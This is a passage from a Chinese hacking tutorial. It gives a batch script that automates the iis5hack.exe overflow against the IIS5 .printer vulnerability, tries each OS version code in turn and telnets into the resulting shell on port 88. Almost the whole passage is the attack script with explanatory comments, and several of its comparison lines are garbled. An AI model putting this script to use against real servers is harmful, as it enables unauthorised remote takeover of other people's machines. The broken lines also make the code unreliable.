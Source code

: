 第四章 完整案例
例一
这个例子是利用iis5hack.exe对有.printer漏洞的主机进行溢出的批处理。用到的程序有iis5hack.exe和系统自带的telnet.exe。iis5hack的命令格式为：
iis5hack <目标ip> <目标端口> <目标版本> <溢出连接端口>目标版本为0-9这10个数字分别对应不同语言版本和sp的系统版本，我们编制的批处理使用的命令格式为 开始版本号可有可无。程序如下。
@echo off /*关闭命令回显
if “%1%”"" goto help /*判断%1是否为空，%1为目标ip
if “%2%”“1” goto 1 /判断%2是否为1，为1则跳转标志1
if “%2%”==“2” goto 2 /%2为开始版本号，如果没有设置则
if “%2%”“3” goto 3 /*如果存在则从匹配的地方开始执行
if “%2%”“4” goto 4
if “%2%”“5” goto 5
if “%2%”“6” goto 6
if “%2%”“7” goto 7
if “%2%”“8” goto 8
if not EXIST iis5hack.exe goto file /*没有发现iis5hack.exe就执行标志file段内容
ping %1 -n 1 | find “Received = 1” /*ping目标1次，从结果中发现Received = 1
if errorlevel 1 goto error /*如果返回代码为1则执行error段(代码1为没有发现 0为发现并成功执行)
iis5hack %1 80 9 88 | find “good” /*开始溢出目标端口80 系统代码9 溢出后连接埠88 在执行结果中发现字符串”good”(溢出成功后才会有字符串good)
if not errorlevel 1 goto telnet /*如果没有错误代码1（溢出成功）就执行telnet段的内容。
echo 操作系统类型 9 失败! /否则显示这一句
:8 /*以下代码内容参照上面
iis5hack %1 80 8 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 8 失败!
:7
iis5hack %1 80 7 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 7 失败!
:6
iis5hack %1 80 6 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 6 失败!
:5
iis5hack %1 80 5 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 5 失败!
:4
iis5hack %1 80 4 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 4 失败!
:3
iis5hack %1 80 3 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 3 失败!
:2
iis5hack %1 80 2 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 2 失败!
:1
iis5hack %1 80 1 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 1 失败!
:0
iis5hack %1 80 0 88 | find “good”
if not errorlevel 1 goto telnet
echo 操作系统类型 0 失败!
goto error
:telnet
telnet %1 88 /*开始连接目标ip的88端口
goto exit /*连接中断后跳转exit段
:error /*error段显示错误后的帮助信息
echo 可能网络不能连接或者对方以修补该漏洞!请按照下面的格式手工尝试一次!
echo iis5hack [目标IP] [WEB端口] [系统类型] [开放埠]